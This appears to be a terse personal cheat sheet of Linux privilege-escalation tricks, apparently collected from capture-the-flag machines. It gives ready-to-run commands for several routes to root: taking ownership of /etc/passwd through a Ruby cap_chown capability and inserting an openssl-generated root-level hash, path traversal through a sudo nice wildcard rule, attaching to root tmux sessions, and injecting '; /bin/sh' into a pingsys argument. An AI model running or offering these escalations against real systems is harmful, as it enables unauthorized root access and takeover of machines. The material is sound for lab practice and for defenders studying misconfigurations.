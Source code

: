 ```dependencies.yml
         method_id: :resolve
```

https://gist.github.com/staaldraad/89dffe369e1454eedd3306edc8a7e565


## ruby cap_chown+ep

```bash
george@empline:~$ ruby -e "require 'fileutils'" -e "FileUtils.chown('george','george','/etc/passwd')"
george@empline:~$ ls -la /etc/passwd
-rw-r--r-- 1 george george 1660 Jul 20  2021 /etc/passwd

```

    openssl passwd -1 -salt root2 root   

$1$root2$qP6XJjGSJ/b7ZfJp.GGl80

add this hash in /etc/passwd and su root2 got root

## Path abuse

(ALL : ALL) /bin/nice /notes/*

exploit: 

sudo /bin/nice /notes/../home/webadmin/root.sh

## ps Tmux

Tmux sessions are open include root

tmux ls

tmux attch -t 0

crtl b then n

or

crtl b then o 



## pingsys 

/usr/bin/pingsys '127.0.0.1; /bin/sh'


## doas.conf 

DOas is alternative of sudo

**permit nopass plot_admin as root cmd openssl**

Exploit

